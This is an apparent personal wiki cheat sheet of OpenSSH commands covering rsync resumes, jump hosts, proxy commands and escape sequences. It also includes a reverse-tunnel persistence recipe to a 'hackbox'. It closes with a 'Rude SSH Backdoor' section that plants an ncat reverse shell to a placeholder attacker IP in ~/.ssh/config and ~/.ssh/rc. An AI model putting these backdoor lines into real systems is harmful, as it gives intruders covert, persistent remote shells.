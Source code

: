 <!-- TITLE: Openssh -->
<!-- SUBTITLE: A quick summary of Openssh -->

# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

```
# cat ~/.ssh/rc
ncat -e /bin/bash <MYIP> 4141 &
```

